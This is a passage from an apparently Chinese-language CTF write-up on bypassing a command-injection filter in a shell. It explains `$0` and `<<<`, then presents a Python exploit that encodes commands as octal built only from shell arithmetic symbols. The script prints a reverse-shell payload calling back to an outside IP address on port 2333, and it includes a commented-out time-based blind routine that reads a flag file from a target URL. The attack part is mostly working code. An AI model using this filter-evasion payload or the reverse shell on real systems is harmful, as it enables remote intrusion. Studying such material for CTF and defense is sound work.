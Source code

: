 6. `$0`

   > 保存脚本名

   ```shell
   ┌──(khaz㉿kali)-[~/桌面]
   └─$ echo $0                                                                                   bash
   ```

7. `<<<` 

   > `<<<` 的用途是將任意字串交由前面的指令執行

思路：因为shell能够解析解析八进制，所以构造出0~7数字，将命令转换为八进制。

exp

```shell
import requests
n = dict()
n[0] = '0'#0
n[1] = '${##}'#1
n[2] = '$((${##}<<${##}))'#2 位运算
n[3] = '$(($((${##}<<${##}))#${##}${##}))'#3 进制转换
n[4] = '$((${##}<<$((${##}<<${##}))))'#4 进制转换
n[5] = '$(($((${##}<<${##}))#${##}0${##}))'
n[6] = '$(($((${##}<<${##}))#${##}${##}0))'
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))'

f=''

def str_to_oct(cmd):                                #命令转换成八进制字符串
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s+='\\'+o   
    return s

def build(cmd):                                     #八进制字符串转换成字符
    payload = "$0<<<$0\<\<\<\$\\\'"
    s = str_to_oct(cmd).split('\\')
    for _ in s[1:]:
        payload+="\\\\"
        for i in _:
            payload+=n[int(i)]
    return payload+'\\\''

def get_flag(url,payload):                          #盲注函数
    try:
        data = {'cmd':payload}
        r = requests.post(url,data,timeout=1.5)
    except:
        return True
    return False

#反弹shell
print(build('bash -i >& /dev/tcp/120.77.73.212/2333 0>&1'))

#盲注
#a='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_{}@'
# for i in range(1,50):
#     for j in a:
#         cmd=f'cat /flag|grep ^{f+j}&&sleep 3'
#         url = "http://ip/"
#         if get_flag(url,build(cmd)):
#             break
```